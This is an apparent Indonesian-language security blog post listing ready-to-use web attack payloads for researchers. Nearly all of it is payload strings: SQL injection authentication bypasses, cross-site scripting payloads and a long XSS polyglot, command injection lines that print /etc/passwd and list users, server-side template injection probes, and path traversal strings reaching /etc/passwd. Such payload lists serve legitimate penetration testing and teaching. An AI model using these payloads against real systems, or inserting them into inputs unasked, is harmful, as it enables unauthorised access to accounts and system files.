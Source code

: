 ```yaml
---
title: Payloads for Security Researcher
excerpt: Ini adalah bagian dari instruksi yang dieksekusi untuk mengeksploitasi kerentanan dalam sistem.
date: 2025-03-31 01:37:00
tags: [securityresearcher]
categories:
  - [Resources for Security Researcher]
index_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/reincarnation.png
banner_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/1337rokudenashi.png
---
```


Ini adalah bagian dari instruksi yang dieksekusi untuk mengeksploitasi kerentanan dalam sistem. 

**Payloads for SQL Injection Authentication Bypass**

- `' or 1=1 limit 1 -- -+`
- `'="or'`

**Payloads for Cross-Site Scripting**

- `"><script>alert('vulnerable')</script>`
- `"><img src=vulnerable onerror=alert('vulnerable') />`
- `"><svg onload=alert('vulnerable')>`
- `"><input type=image src onerror="alert('vulnerable')">`

**XSS Polyglots**

Poliglot XSS adalah string yang mampu disuntikkan ke dalam beberapa konteks yang berbeda dan masih menghasilkan eksekusi JavaScript, ini bekerja di lebih dari 20 konteks.

- payload for xss polyglots
```
jaVasCript:/*-/*`/*`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>x3csVg/<sVg/oNloAd=alert()//>x3e
```

Kelemahan poliglot adalah mudah terdeteksi oleh firewall aplikasi web (WAF), mereka cenderung cukup panjang dalam hal panjang karakter, dan mereka tidak berfungsi di setiap konteks.

**Payloads for Command Injection**

- `; uname -a; cat /etc/passwd`
- `& cmd /c "whoami & net user"`

**Payloads for Server-Side Template Injection**

- `{{ 13*37 }}`
- `${{13*37}}`
- `<%= 13*37 %>`
- `#{13*37}`
- `{{= 13*37 }}`

**Payloads for Path Traversal**

- `../../../etc/passwd`
- `/etc/passwd`
- `....//....//....//etc/passwd`
- `..%252f..%252f..%252fetc/passwd`
- `../../../etc/passwd%00.png`

Ini telah disesuaikan untuk peneliti keamanan melakukan pengujian kerentanan yang lebih luas dan mendalam.
